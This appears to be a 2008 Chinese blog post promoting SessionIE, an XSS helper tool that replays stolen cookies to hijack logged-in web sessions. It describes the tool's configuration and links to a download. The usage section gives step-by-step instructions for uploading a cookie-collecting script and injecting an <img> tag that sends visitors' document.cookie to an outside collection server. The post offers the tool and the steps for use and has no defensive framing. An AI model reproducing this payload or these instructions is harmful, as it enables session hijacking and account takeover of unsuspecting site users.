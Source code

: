 ```yaml
---
title: SessionIE 正式版 下载
description: 这2天公布的好工具不少，昨天夜火我发了一个WScanv3.0-CRST红狼小组的web扫描器，今天又来一个SessionIE正式版，天天有新工具耍就爽了SessionIE公开正式版，并停止更新。一、什么是SessionIESessionIE是由CCTEAM开发团队开发的通用XSS辅助工具，可利用获取的COOKIE复制相同的http会话到本地以实现直接登录。
date: 2008-07-25 10:23:40
category: 安全工具
tags: ['SessionIE', 'session', 'Cookies']
post_id: 552
alias: SessionIE
ViewNums: 3923
---
```


这2天公布的好[工具](/tags/%E5%B7%A5%E5%85%B7%E5%85%B1%E4%BA%AB)不少，昨天[夜火](/blog/)我发了一个[WScan v3.0 - CRST红狼小组的web扫描器](/blog/wscan-v30-crsthtml "wscan v30 - crst红狼小组的web扫描器")，今天又来一个**[SessionIE 正式版](/blog/sessionie**，天天有新工具耍就爽了

SessionIE公开正式版，并停止更新。

**一、什么是 [SessionIE](/tags/SessionIE)**

SessionIE是由CCTEAM开发团队开发的通用[XSS](/blog/xss-worm-defense-hibaidu)辅助工具，可利用获取的[COOKIE](/blog/cookies-injection-method-theory)复制相同的http会话到本地以实现直接登录。

**二、SessionIE能做什么**

* Sessionie可以快速的利用XSS，而无需构造伪页面或代码等繁琐却不能重用的劳力
* Sessionie能即时的跟踪目标来源并进行 Session维持而保持Session的有效性
* Sessionie能结合特定的WEB服务以短信，邮件方式即时通知用户最新上线主机

**三、功能特点**

1. 即时通知上线主机
2. 两种[COOKIE](/blog/cookie-injection-how-the)修改方式，允许将Cookie设置到外部的任意浏览器
3. 完善的导入导出功能

**四、界面与说明**

Sessionie为单一可执行程序，主界面如图
![SessionIE](http://pic.yupoo.com/sunlei/140915eb88f1/n9wkz449.jpg)
配置窗口
![SessionIE 正式版](http://pic.yupoo.com/sunlei/082485eb88f0/wmy9a11f.jpg)
运行模式

sessionie( 具备session复制功能)

普通ie(正常的IE功能)

使用Pcap

不勾选则使用API模式,

勾选则使用pcap模式，需要设置网卡,该模式可将session设置到外部浏览器

建议使用api模式，当api设置COOKIE失败时可选用pcap模式

维持间隔

维持session的频率 单位为秒

保存结果

可用于无人值守时，自动保存劫持到的html内容，默认保存到report目录下，每个url默认保存两份。

爬虫深度（功能未开放）

用于无人值守时，自动保存劫持到的html的内容，并基于此session进行爬虫搜索的深度值。

相同URL重复次数

来源地址和COOKIE相同可重复出现的记录数

COOKIE脚本地址

用于收集cookie的脚本文件地址

例如：http://www.cncert.net/xss/xssc.asp

密码

Xssc脚本的密码

例如: www.cncert.net

短信提示

网址：用于接收Post数据的地址

表单内容：提交到上面网址的 post数据

注：配置文件为sysconfig.dll ,请不要手动修改配置文件，发生不可修复的错误时，请尝试删除配置文件。

**五、如何使用SessionIE**

1.修改下载的xsscu.asp里面的密码为你要设置的密码后上传ASP服务器。

2.打开Sessionie的配置窗口，设置好 COOKIE服务器地址和密码，选中Sessionie

3.构造

<img src=http://www.cncert.net/xss/xssc.asp?+document.cookie>

或者<img src=http://www.cncert.net/xss/xsscu.asp?+escape(document.cookie)>

类似语句到目标页面

4.当对方（必须和本地SessionIE为不同的公网IP）访问你的[XSS](/tags/%E8%B7%A8%E7%AB%99)页面时候，SessionIE便会拾取到[COOKIE](/tags/Cookies)

**六、如何得到SessionIE**

[下载地址](/blog/download.asp?id=112
[演示地址](/blog/download.asp?id=112

